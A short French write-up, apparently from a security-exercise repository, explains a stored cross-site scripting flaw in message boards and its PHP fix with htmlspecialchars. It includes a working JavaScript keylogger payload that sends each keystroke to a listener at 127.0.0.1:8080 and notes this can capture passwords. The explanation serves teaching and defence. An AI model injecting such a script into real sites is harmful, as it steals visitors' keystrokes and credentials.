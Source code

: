 # Ijection JS
## Explication de la faille
Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.
```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8080/${userID}?l=${l}`, true);
    http.send();
}
</script>
```
## Explication du correctif
Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.